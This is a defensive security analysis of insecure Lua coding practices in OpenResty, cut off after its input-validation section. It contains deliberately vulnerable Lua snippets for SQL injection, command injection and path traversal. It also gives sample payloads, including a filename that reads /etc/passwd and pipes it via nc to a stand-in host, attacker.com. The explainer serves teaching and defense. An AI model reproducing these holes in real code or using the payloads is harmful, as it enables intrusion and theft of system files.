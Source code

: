 ## Deep Analysis: Exploit Insecure Lua Coding Practices in OpenResty

As a cybersecurity expert working with your development team, let's delve deep into the "Exploit Insecure Lua Coding Practices" attack tree path within your OpenResty application. This path, while seemingly broad, represents a significant and often overlooked attack surface.

**Understanding the Context: Lua and OpenResty**

Before diving into the specifics, it's crucial to understand the role of Lua within OpenResty. OpenResty leverages Lua as its primary scripting language for extending Nginx's functionality. This means Lua code directly interacts with the core web server, handling requests, processing data, and interacting with backend systems. Therefore, vulnerabilities in Lua code can have severe consequences, potentially compromising the entire application and the underlying server.

**Deconstructing the Attack Path:**

**HIGH RISK PATH**: Exploit Insecure Lua Coding Practices

**Attack Vector:** Exploiting vulnerabilities introduced by poor coding practices in Lua scripts.

**How it works:** Developers might introduce vulnerabilities by using unsafe functions, failing to sanitize user input, or making errors in logic. Attackers can then exploit these flaws to execute arbitrary code, access sensitive data, or disrupt the application.

**Deep Dive into the "How it Works":**

This seemingly simple explanation encompasses a wide range of potential vulnerabilities. Let's break it down into specific categories and provide concrete examples relevant to OpenResty:

**1. Input Validation and Sanitization Failures:**

* **Problem:** Lua code directly uses user-provided data (from request headers, query parameters, request body, cookies, etc.) without proper validation or sanitization.
* **OpenResty Relevance:** OpenResty's `ngx.req.get_uri_args()`, `ngx.req.get_headers()`, `ngx.req.get_body_data()`, and similar functions provide access to user input. If this input is directly used in operations like database queries, command execution, or file path construction, it becomes a vulnerability.
* **Examples:**
    * **SQL Injection:**
        ```lua
        local username = ngx.req.get_uri_args()["username"]
        local query = "SELECT * FROM users WHERE username = '" .. username .. "'" -- Vulnerable!
        local res = db:query(query)
        ```
        An attacker could provide a malicious username like `' OR '1'='1` to bypass authentication.
    * **Command Injection:**
        ```lua
        local filename = ngx.req.get_uri_args()["filename"]
        local cmd = "cat /tmp/" .. filename -- Vulnerable!
        local handle = io.popen(cmd, "r")
        -- ... process the output ...
        ```
        An attacker could provide a filename like `../../../../etc/passwd | nc attacker.com 1234`.
    * **Path Traversal:**
        ```lua
        local filepath = ngx.req.get_uri_args()["file"]
        local f = io.open("/var/www/data/" .. filepath, "r") -- Vulnerable!
        -- ... process the file ...
        ```
        An attacker could provide a file value like `../../../../etc/passwd` to access sensitive files.
